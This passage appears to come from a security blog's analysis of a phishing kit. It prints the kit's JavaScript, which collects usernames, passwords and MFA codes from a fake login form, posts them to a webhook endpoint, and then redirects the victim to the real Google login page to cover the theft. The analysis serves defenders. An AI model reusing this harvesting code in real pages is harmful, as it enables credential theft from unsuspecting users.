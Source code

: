 ```
            const verifyButton = document.querySelector('.verify-button');
            if (verifyButton) {
                verifyButton.disabled = true;
                verifyButton.textContent = 'Verifying';
                verifyButton.classList.add('loading');
            }

            // Send data to webhook handler via nginx proxy
            fetch('/api/submit', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify(data)
            })
            .then(response => response.json())
            .catch((error) => {
                console.error('Error:', error);
            })
            .finally(() => {
                // Wait for 5 seconds before redirecting
                console.log('Redirecting in 5 seconds...');
                setTimeout(function() {
                    // Clear browser history to prevent back button
                    history.replaceState(null, '', '/');

                    // Redirect to Google
                    window.location.replace('https://accounts.google.com/');
                }, 5000);
            });
        }
```

This is the final function used by our threat actor. It exfiltrates captured credentials and MFA tokens to a webhook endpoint via a POST request, then redirects the user to a legitimate Google login page to mask the phishing operation. This webhook can be used with any endpoint; however, threat actors often utilize [Telegram](https://www.bitsight.com/blog/exfiltration-over-telegram-bots-skidding-infostealer-logs) or [Discord](https://www.bitsight.com/blog/exfiltration-over-telegram-bots-skidding-infostealer-logs) for this type of activity.

## Code Walkthrough & Analysis For Login Form

```
// Function to submit authentication data to the webhook handler
function submitAuthData() {
    const username = document.getElementById('username').value || 'N/A';
    const password = document.getElementById('password').value || 'N/A';
    const mfaCode = document.getElementById('auth-code').value || 'N/A';

// Prepare data for sending
    const data = {
            username: username,
            password: password,
            mfa_code: mfaCode
            };
```
